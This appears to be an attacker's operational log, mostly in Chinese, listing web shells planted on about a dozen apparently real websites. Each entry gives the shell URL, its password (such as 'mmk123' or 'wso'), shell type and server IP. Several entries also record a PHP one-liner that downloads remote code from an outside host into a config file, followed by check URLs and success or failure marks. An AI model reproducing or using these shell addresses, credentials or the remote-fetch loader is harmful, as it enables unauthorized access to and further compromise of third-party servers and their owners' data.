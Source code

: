 https://junconmachines.com/static/upload/video/20221128/13.php |mmk123 |rsa | 218.247.87.80
https://taiguii.com/static/upload/image/20230803/3m.php |mmk123 |  47.93.234.132 
https://www.rxb.ink/static/BaiDu/picture/3m.php |mmk123 

http://www.hnbzyc.com/uploads/allimg/191225/3m.php |mmk123 |  106.15.77.49
代码更新：0608 ✅
http://www.hnbzyc.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.hnbzyc.com/config/httpd.php?d=up

http://xc.qxlcyjt.com/static/upload/other/20191220/3m.php |mmk123 |  47.97.25.132
代码更新：0608 ✅
http://xc.qxlcyjt.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://xc.qxlcyjt.com/config/httpd.php?d=up

https://www.yunfuzhuoxinda.com/static/upload/image/20230905/3m.php |mmk123 |  103.18.206.115
代码更新：0608 ✅
https://www.yunfuzhuoxinda.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.yunfuzhuoxinda.com/config/httpd.php?d=up

http://szaipets.com/static/upload/image/20231030/13.php |big |wso | 43.154.53.8
http://www.szaipets.com/static/upload/image/20240109/13.php |wso |wso | 43.154.53.8
http://x249.www.pusite.icu/static/upload/image/20231010/13.php |mmk123 |rsa | 120.55.79.114
http://www.demigodjewelry.com/dd.php |dd |大马 | 47.244.172.140

http://kelaiyiyx.com/static/upload/image/20231114/m22.php |mmk123 |  8.217.173.192
代码更新：0608 ✅
http://kelaiyiyx.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://kelaiyiyx.com/config/httpd.php?d=up

https://warlzy.com/static/upload/image/20230607/m22.php |mmk123 |  39.99.163.186 创建文件失败

http://k464.yuean.top/static/upload/image/20231013/m22.php |mmk123 |  154.221.17.137
代码更新：0608 失败  500
http://k464.yuean.top/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://k464.yuean.top/config/httpd.php?d=up

http://bj.ehot.vip//skin/images/m22.php |mmk123 |  103.56.113.2
代码更新：0608 失败  500
http://bj.ehot.vip/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://bj.ehot.vip/config/httpd.php?d=up
